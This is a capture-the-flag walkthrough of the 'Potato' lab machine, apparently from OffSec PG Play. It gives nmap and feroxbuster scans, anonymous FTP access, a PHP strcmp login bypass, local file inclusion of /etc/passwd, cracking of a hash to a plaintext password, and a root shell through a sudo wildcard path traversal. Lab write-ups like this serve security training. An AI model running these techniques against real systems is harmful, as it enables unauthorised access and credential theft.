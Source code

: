 # PG Play
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:

![pgplay_potato_site.png](../assets/potato_assets/pgplay_potato_site.png)

I also notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:

![pgplay_potato_index.png](../assets/potato_assets/pgplay_potato_index.png)

However navigating to http://192.168.186.101/dashboard.php we get a 404 error. 

Turning back to our directory fuzzing we find an `/admin` page.

![pgplay_potato_dirs.png](../assets/potato_assets/pgplay_potato_dirs.png)

Navigating here we do find a login panel:

![pgplay_potato_login.png](../assets/potato_assets/pgplay_potato_login.png)

But our discovered credentials don't work here:

![pgplay_potato_fail.png](../assets/potato_assets/pgplay_potato_fail.png)

### Exploitation/ Foothold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.

![pgplay_potato_strcmp.png](../assets/potato_assets/pgplay_potato_strcmp.png)

There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. I don't know much about PHP, but I think the fix for this may be using the operator `===` rather than `==`?

Lets capture a login request in Burp:

![pgplay_potato_burp.png](../assets/potato_assets/pgplay_potato_burp.png)

Nice, that worked, We can now access the dashboard:

![pgplay_potato_dashboard.png](../assets/potato_assets/pgplay_potato_dashboard.png)

Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.

![pgplay_potato_logs.png](../assets/potato_assets/pgplay_potato_logs.png)

Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:

![pgplay_potato_lfi1.png](../assets/potato_assets/pgplay_potato_lfi1.png)

And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:

![pgplay_potato_john.png](../assets/potato_assets/pgplay_potato_john.png)

We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH in to the target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:

![pgplay_potato_local_flag.png](../assets/potato_assets/pgplay_potato_local_flag.png)

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:

![pgplay_root_flag.png](../assets/potato_assets/pgplay_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------



